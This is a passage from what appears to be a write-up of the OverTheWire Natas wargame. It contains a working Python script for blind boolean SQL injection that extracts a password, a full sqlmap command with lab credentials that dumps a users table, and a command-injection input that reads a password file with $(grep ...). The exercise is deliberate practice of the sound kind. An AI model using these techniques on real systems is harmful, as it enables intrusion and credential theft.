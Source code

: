 ```python
	req = urllib.request.Request(url=URI, data=data, method='POST')
	with opener.open(req) as f:
		res = f.read().decode('utf-8')
		return c if "this user exists" in res.lower() else None

filtered=''
for c in CHARS:
	query = f'natas16" AND password LIKE BINARY "%{c}%'
	result = request(query)
	if not result is None:
		filtered = filtered + c

found = ''
password=''
while password == '' or not found == '':
	found = ''
	for c in filtered:
		query = f'natas16" AND password LIKE BINARY "{password}{c}%'
		result = request(query)
		if not result is None:
			found = result
			break
	password = password + found
	print(password)
```

### Using sqlmap

```sh
# data: Data string to be sent through POST (e.g. "id=1")
# string: String to match when query is evaluated to True
# technique: Boolean-based blind - see https://github.com/sqlmapproject/sqlmap/wiki/Techniques
# D, T, C: database, table(s), column(s) to enumerate
sqlmap -u http://natas15.natas.labs.overthewire.org/?debug \
  --auth-type=Basic \
  --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J \
  --data="username=natas16" \
  --dbms=mysql \
  --technique=B \
  --string="This user exists" \
  -D natas15 -T users -C username,password --dump
```

## Level 16 -> 17

Similar to the previous level, boolean based injection can be used.
Need to ask: does /etc/natas_webpass/natas17 contains letter a?

Input: needled$(grep a /etc/natas_webpass/natas17)

Output if Yes: empty
